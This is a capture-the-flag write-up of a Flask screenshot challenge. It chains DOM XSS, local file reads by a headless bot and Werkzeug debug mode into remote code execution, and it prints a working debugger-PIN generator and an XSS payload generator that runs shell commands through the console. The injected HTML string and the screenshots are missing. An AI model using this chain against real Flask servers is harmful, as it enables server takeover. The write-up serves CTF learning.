







# screengrab (Blue Hens CTF 2026)
---
**Description:**

screenshot as a service

## Table of contents
- [I. Overview](#i-overview)
- [II. Source code analysis](#ii-source-code-analysis)
- [III. Vulnerability analysis](#iii-vulnerability-analysis)
- [IV. Exploitation](#iv-exploitation)
- [V. Attack flow](#v-attack-flow)
---

## I. Overview
The webapp receives URL from user and print screenshot of the page that the URL points to.

The problem lies in `Debug=True` feature is turned on and there is XSS vunerability in title which can trick bot to leak local file, resulting in RCE via `/console` service. Abuse RCE to read flag on server.

## II. Source code analysis

The code base of this challenge is pretty small, easy to read, including mainly: `app.py` for the backend and `App.js` for the frontend.

#### `Backend`: 

- `/`: return main page
- `/api/data`: return json data `{'message': 'Hello from Flask!'}` to beautify the page (it's just that, no more =))))
- `/api/screenshot`: this endpoint receives a param from url named `url` and take screenshot of that page.



And the dev turn on `debug=True`:

```python
if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=1337)
```

#### `Frontend`:





The screenshot of code above explains it all.


## III. Vulnerability analysis

1. DOM-based XSS

We see that the title is updated with value originating from URL params without sanitization/validation `<h2 className="post-title" dangerouslySetInnerHTML={{ __html: post.title }}></h2>`.
As the variable name suggests, this is a sink of DOM-based XSS. Inside `__html`, though it doesn't run `<script>` tag, it still allows Event Handler to execute. For example: onerror, onload, onmouseover,...



2. Debug Mode Enabled in Flask/Werkzeug

Enable Debug assists developers a lot in troubleshoot the problem on server-side from website interface via endpoint `/console` or when error/exceptions occurs, instead of `Internal Server Error`, we'll get details errors from the server and traceback too.

Being aware of the danger, Werkzeug developers have some prevention:

- `Trusted Host Limitation:` console onyl accepts request from `localhost`, or `127.0.0.1`
- `SECRET Token:` anti-CSRF, the SECRET is embedded in the html content which 20-char long and randomly generated. Dev must include it as param `s` in the URL as he/she wants to use `/console`
- `Debugger PIN (pinauth)`: the password protected the console. It is not randomly created but based on some algorithm with some specific inputs coming from the config of the running machine.


Read more [here](https://werkzeug.palletsprojects.com/en/stable/debug/).
However, turning debug on also opens an attack vector, make it possible for hacker to somehow steal the PIN and control the console enabling them to get RCE on the server.

## IV. Exploitation

We know that the webapp is vulnerable to XSS. On server-side, there also lacks of validation of received URL, in which we can trick bot to visit local file instead of URL.

**PoC:**


We can confirm that from DOM-based XSS, we can scale it to `Local File Inclusion (LFI)`

Search for related document and attacks, I found [this](https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html) which instructs us how to get neccessary information to recreate **Werkzeug PIN**, the post also provides algorithm to generate the PIN.

We need 6 values (6 infinity stones =))))))))
1. Username of account running the app (Read the Dockerfile we get it `user`)
2. Module name  (Usually `flask.app`)
3. Class name   (Usually `Flask`) `app = Flask(__name__, static_folder='static', static_url_path='/')`
4. Absolute path to `app.py` file on the server
5. MAC address of network card on the server (in decimal)
6. Machine ID (Characteristic ID of Linux server)

The first 4 values can be determined on our local server and config file. The 4th is `/usr/local/lib/python3.12/site-packages/flask/app.py` (Because if the challenge is built from the same Dockerfile, these package should remain the same)

For the last 2 values, we must exploit LFI to read.

According to the post, MAC address is at `/sys/class/net/eth0/address`, get the address and convert to decimal format to `261805960782894`


And the machine id is at `/etc/machine-id` => `186d16078e564464a35d35001079d92d`


Download file generating PIN from hacktrick, replace recently found values. File [here](assets/exploit.py)

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.12/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '261805960782894',  # str(uuid.getnode()),  /sys/class/net/eth0/address
    '186d16078e564464a35d35001079d92d'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

The PIN is `995-918-430`

Accessing directly `/console` is prohibited, so I will have the bot to access (because its origin is from 127.0.0.1).



For the secret, the bot gets XSS will read the html content upon request for `/console`, extract the **SECRET** in there.

Finally, I use XSS to get RCE on server, read flag and write out to the page. Let the bot take screenshot and return the pic to us.

For your question, all params can be found here, in [source code](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py)



**Payload gen link**:
```python
import base64
from urllib.parse import quote

PIN = "995-918-430"

def exploit():
    # The JavaScript payload that will execute inside the headless browser
    js_payload = f"""
(()=>{{
    // Request 1: Read secret
    var x = new XMLHttpRequest();
    x.open('GET', 'http://127.0.0.1:1337/console', false); 
    x.send();
    var s = x.responseText.match(/SECRET = "(.*?)"/)[1];

    // Request 2: Submit PIN
    var y = new XMLHttpRequest();
    y.open('GET', 'http://127.0.0.1:1337/console?__debugger__=yes&cmd=pinauth&pin={PIN}&s='+s, false);
    y.send();

    // Request 3: Run RCE to read flag
    var cmd = encodeURIComponent("__import__('os').popen('/app/read_flag').read()");
    var z = new XMLHttpRequest();
    z.open('GET', 'http://127.0.0.1:1337/console?__debugger__=yes&cmd='+cmd+'&frm=0&s='+s, false);
    z.send();

    // Write flag onto the page, wait for bot to capture screen
    document.body.innerHTML = '<h1 style="color:red; font-size:50px;">' + z.responseText + '</h1>';
}})()
    """

    # Encode the JavaScript cleanly to Base64
    b64_js = base64.b64encode(js_payload.encode()).decode()
    xss_payload = f""

    # Construct the internal target URL with the dummy url parameter to satisfy React
    encoded_xss = quote(xss_payload)
    internal_target = f"http://127.0.0.1:1337/?title={encoded_xss}&url=about:blank"
    print(f"[*] Firing exploit...")    
    print(f"[*] Internal Target: {internal_target}")

if __name__ == "__main__":
    exploit()
```
Run script, get the link and send it to server.



## V. Attack flow


> Flag: ***UDCTF{f1l3_r3Ad_2_rCe_vi4_f1ask_d3bug_m0d3}***


